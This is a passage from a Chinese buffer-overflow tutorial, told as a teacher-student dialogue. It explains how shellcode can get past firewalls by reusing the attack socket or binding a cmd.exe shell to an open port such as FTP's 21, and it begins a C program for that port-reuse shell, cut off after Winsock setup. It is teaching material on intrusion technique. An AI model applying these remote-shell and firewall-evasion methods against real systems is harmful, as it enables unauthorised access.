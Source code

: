 “是的，但那样需要我们攻击方在公网上，有一个公网的 IP 地址。如果攻击方在内网，那目标机就反连不上来，这种方式就行不通了，如图 6－24。”

![](img/Q 版缓冲区溢出教程 207752.jpg)

“哇！是啊！这种情况下如何突破呢？”宇强也迷糊了。

“呵呵！现在我们既不能从攻击机发起连接，因为会被目标机的防火墙阻断；也不能从目标机发起连接，因为到不了攻击机的内网。”

“啊！岂不是路都堵死了？”小倩说道。

“大家不要在一条路上想死了，要换一个思路。”老师说道。“我们既然可以给远程机器发送攻击代码，那么它们之间应该是连接的！而远程机器间的连接通信一般都是通过 Socket 来完成的。”

“哦！我们利用原来的连接？”宇强叫了出来。

“对，如果我们的 ShellCode 可以找到发送攻击代码的那条通路的 Socket，就可直接使用以前那个连接 Socket，不用再新建端口了！如图－25。”

![](img/Q 版缓冲区溢出教程 208053.jpg)

“哦！很巧妙啊！”台下感叹道。

“另外，服务器总要开些端口，我们也可把 Shell 的端口开在防火墙打开的端口上。”老师说，“通过端口复用来突破防火墙！”

“比如，对方开放了 FTP 服务，那么防火墙就需要打开 21 端口。我们的 ShellCode 就可复用目标机的 21 端口，在对方的 21 端口上绑定一个 Shell；而攻击机通过连接 21 端口来获得 Shell。如图 6－26。”

![](img/Q 版缓冲区溢出教程 208239.jpg)

“我们来看看复用端口的具体实现吧！程序如下：”

```
/*
绑定指定 21 端口，绑定 cmd.exe
*/
#include <winsock2.h>
#include <string.h>
#include <stdio.h>
#include <tchar.h>
#include <process.h>
#include <io.h>
#pragma comment(lib, "ws2_32")
int main(int argc, char **argv) 
{ 
    //启动 winsock
    WSAData wsa; 
    WORD wVersion;
    int ret;
    wVersion = MAKEWORD(2, 0); 
    if(WSAStartup(wVersion, &wsa) != 0)
    { 
        return -1;
    }
    //下面获取本机 IP 地址 
    char szHostName[128];
    char *pszIp;
    HOSTENT *pHost = NULL;
    if(gethostname(szHostName, 128)==0)
    { 
        pHost = gethostbyname(szHostName);
        if(pHost != NULL)
        {
            pszIp = inet_ntoa( *(in_addr*)pHost->h_addr_list[0] ); 
        }
        else 
        {
            printf("get host ip fail!\n");
            return -1;
        }
    }
```